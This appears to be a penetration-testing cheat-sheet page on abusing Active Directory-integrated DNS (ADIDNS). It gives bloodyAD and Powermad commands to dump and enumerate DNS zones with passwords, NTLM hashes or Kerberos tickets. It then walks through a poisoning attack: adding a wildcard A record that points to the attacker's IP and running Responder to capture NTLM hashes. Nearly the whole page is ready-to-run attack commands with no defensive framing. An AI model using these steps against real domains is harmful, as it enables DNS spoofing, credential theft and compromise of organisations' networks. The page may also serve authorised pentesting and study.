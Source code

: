 ```yaml
---
title: "ADIDNS"
date: 2025-7-25
tags: ["Domain", "ADIDNS", "ADDS", "DNS", "PowerMad", "DNS Posioning", "Spoofing", "Windows", "Active Directory"]
---
```


### General

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. DNS Dump

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> get dnsDump
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> get dnsDump
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> get dnsDump
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Enum

```console
# Get ADIDNS zone
Get-ADIDNSZone
```

```console
# Get ADIDNS permissions
Get-ADIDNSPermission
```

```console
# Remove a node
Remove-ADIDNSNode -Node *
```

{{< /tabcontent >}}

### Abuse #1: ADIDNS Poisoning

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Add a New A Record

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

#### 2. Steal NTLM

```console
sudo responder -I tun0
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Create a New Node

```console
$dnsRecord = New-DNSRecordArray -Type A -Data <LOCAL_IP>
```

```console
New-ADIDNSNode -Node * -Tombstone -DNSRecord $dnsRecord -Verbose
```

#### 3. Check

```console
Resolve-DnsName DoesNotExist
```

#### 4. Steal NTLM

```console
sudo responder -I tun0
```

{{< /tabcontent >}}